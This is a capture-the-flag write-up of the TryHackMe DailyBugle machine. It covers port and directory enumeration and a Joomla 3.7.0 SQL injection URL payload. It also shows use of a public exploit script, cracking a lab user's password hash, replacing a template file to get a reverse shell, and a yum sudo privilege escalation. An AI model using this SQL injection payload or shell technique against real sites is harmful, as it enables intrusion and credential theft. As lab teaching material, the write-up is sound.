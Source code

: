 ```yaml
---
layout: single
title: DailyBugle - TryHackMe (OSCP STYLE)
excerpt: "Welcome to DailyBugle CTF machine! This challenge involves exploiting a vulnerable version of Joomla, plaintext passwords, and an escalation of privileges through yum. Your objective is to gain access to the system by identifying and exploiting these vulnerabilities."
date: 2023-05-14
classes: wide
header:
  teaser: /assets/images/dailybugle/portada.png
  teaser_home_page: true
categories:
  - TryHackMe
  - infosec
tags:
  - TryHackMe
  - Linux
  - Joomla 3.7.0
  - Lateral Priv Escalation
  - Yum SUDO permissions
---
```


## Enumeration

As in all write-ups, we will start by checking if we have connectivity with the machine, in this case we see that it does give us a response and furthermore we can deduce from its TTL that it is a Linux machine.

![1]

We perform the usual scan that can be seen in all my write-ups.

```
sudo nmap -p- -sS --min-rate 5000 --open -T5 -vvv -n -Pn 10.10.122.9 -oG allPorts
```

![2]

  `sudo`: Runs the command with administrative privileges.
-   `nmap`: The command we are running.
-   `-p-`: Scans all ports.
-   `-sS`: Uses a SYN scan to determine the state of the ports.
-   `--min-rate 5000`: Sets the minimum packet sending rate to 5000 packets per second.
-   `--open`: Shows only open ports.
-   `-T5`: Sets the timing template to 5, which makes the scan faster but also more aggressive.
-   `-vvv`: Sets the verbosity level to 3, which provides more detailed output.
-   `-n`: Treats all hostnames as IPs, skipping DNS resolution.
-   `-Pn`: Skips host discovery by not sending an ICMP ping.
-   `10.10.122.9`: The IP address of the target machine to be scanned.
-   `-oG allPorts`: Outputs the results in the grepable format to a file named "allPorts".

We found 3 open ports, on first instance the one which stands out is the por 80 and 3306, the first one indicates that this machine is hosting a web site and the second one indicates that this machine has a SQL instance running behind.

Running a nmap scan with the Version flag activated, we extract some information about the machine

![3]

This machine has different paths on his website and we are able to know that we are facing a Apache/2.4.6 (CentOS) PHP/5.6.40 and is a Joomla cms

Also we could know that the SQL instance is mysql  MariaDB 

## Initial Access 

![4]

On first instance we found a main page with a login form and one post that relates that Spider-Man robs a bank.

We start fuzzing the page with wfuzz tool in order to find other directories or paths that could be vulnerable.

```
┌──(kali㉿kali)-[~/Documents/THM/DailyBugle/nmap]
└─$ wfuzz --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.122.9/FUZZ 
```

![5]

If we navigate to the administrator path, we found other login form

![6]


After trying the basics SQLi querys to bypass the login,  I decided to continue enumerating the site trying to get the Joomla CMS version, after a long research I found a page that helped me to get the version with the following path 

```
http://10.10.122.9/administrator/manifests/files/joomla.xml
```

![7]

Now knowing that the version is the 3.7.0 I started to search vulnerabilites for it, i found a common exploit that allows to retrieve information from de database [GitHub](https://github.com/XiphosResearch/exploits/blob/44bf14da73220467410c2d952c33638281c47954/Joomblah/joomblah.py#L52)
I tried to find out the way to do a complete manual sqli but I couldn't

```
http://10.10.122.9/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=UpdateXML(2,%20concat(0x3a,(SELECT%20schema_name%20from%20information_schema.schemata),%200x3a),%201)
```

![8]

After understand how the exploit works and try by my self I decided to use the python exploit, the objective is to not use SQLMap tool, but I'm not sure if this script is allowed in the OSCP certification

```
┌──(kali㉿kali)-[~/Documents/THM/DailyBugle/exploits]
└─$ python3 joomblah.py http://10.10.122.9

```

![9]
We found 1 user with his hashed password

User: Jonah
Pass: $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm

Since we have his hash we'll use this to crack it with John tool

We create a file called john.hash with the following information

```
jonah:$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```

The command is: `john --crack-status john.hash` or `hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt`

![12]

```
Pass:spiderman123
```

After getting the cracked password we are able to login into the admin panel, the way to get a reverse shell is similar in all CMS, we'll navigate to template tab and replace the php code of index.php for our customize php code that we can call navigating to the main page

![11]

When we go to the index.php page we establish a reverse shell as apache user 

![10]

We do a TTY interactive console with the followiong commands

```
script /dev/null -c bash

CTRL + Z

stty raw -echo; fg

reset xterm

export TERM=xterm

export SHELL=bash

stty size

X X

stty rows X colums Xstty rows X colums X
```

Due the low privileges that has our user, we have to try to migrate to an user more privileged, we start enumerating Capabilities, CronJobs, SUID, Sudo....

We decided to enumerate the writable folders 

```
find / -writable -type d 2>/dev/null
```

And we found the `/var/www/html/configuration.php`

This file is important, inside this file always we can find out clear text credentials

![13]

The clear text password that we found is `nv5uz9r3ZEDzVjNu`


![14]

## Privilege Escalation

After gaining access, we need to re-list the permissions held by the new user.
We observed that this user can use the yum binary with sudo permissions.

If we investigate a bit on the [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo) page, we can find information about the binary

There are several ways to achieve privilege escalation by exploiting this binary. One way is to craft an RPM package and use a tool, while the other is a more manual approach, so we will opt for the latter. We just have to follow the steps of the machine and we will get a root shell.

![15]

![16]




[1]:/assets/images/dailybugle/1.png
[2]:/assets/images/dailybugle/2.png
[3]:/assets/images/dailybugle/3.png
[4]:/assets/images/dailybugle/4.png
[5]:/assets/images/dailybugle/5.png
[6]:/assets/images/dailybugle/6.png
[7]:/assets/images/dailybugle/7.png
[8]:/assets/images/dailybugle/8.png
[9]:/assets/images/dailybugle/9.png
[10]:/assets/images/dailybugle/10.png
[11]:/assets/images/dailybugle/11.png
[12]:/assets/images/dailybugle/12.png
[13]:/assets/images/dailybugle/13.png
[14]:/assets/images/dailybugle/14.png
[15]:/assets/images/dailybugle/15.png
[16]:/assets/images/dailybugle/16.png
